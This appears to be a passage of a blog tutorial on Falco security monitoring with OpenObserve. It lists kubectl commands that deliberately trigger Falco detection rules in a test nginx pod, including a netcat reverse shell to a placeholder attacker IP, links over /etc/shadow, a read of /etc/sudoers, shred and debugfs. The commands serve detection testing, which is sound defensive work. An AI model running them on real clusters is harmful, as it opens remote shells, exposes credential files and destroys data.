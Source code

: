 ```
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- nc -lvp 4444

# 15. Packet socket created in container
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- ip link add name dummy0 type dummy

# 16. Create symlink over sensitive files
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- ln -s /etc/shadow /tmp/shadow_link

# 17. Create hardlink over sensitive files
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- ln /etc/shadow /tmp/shadow_hardlink

# 18. Bulk data removed from disk
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- shred -u /tmp/sensitive_data.txt

# 19. Debugfs launched in privileged container
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- debugfs /dev/sda1

# 20. Detect PTRACE attach
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- strace -p <pid>

# 21. Contact Kubernetes API server from container
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- curl https://kubernetes.default.svc.cluster.local

# 22. Shell spawned by untrusted binary
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- /bin/sh

# 23. Netcat remote code execution
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- nc -e /bin/bash <attacker_ip> 4444

# 24. Sensitive file opened for reading
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- cat /etc/sudoers

# 25. Execution of binary from untrusted directory
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- ./tmp/malicious_binary

# 26. Detect usage of /proc file system for attack
kubectl exec -it $(kubectl get pods --selector=app=nginx -o name) -- ls /proc/<pid>

```

#### **4\. Test the Setup**

Verify the logs in OpenObserve dashboard by selecting namespace as falco and you should see the logs generated that were gathered by OpenTelemetry collector. 
![falco logs](/img/blog/falco-security/falco_logs.png)
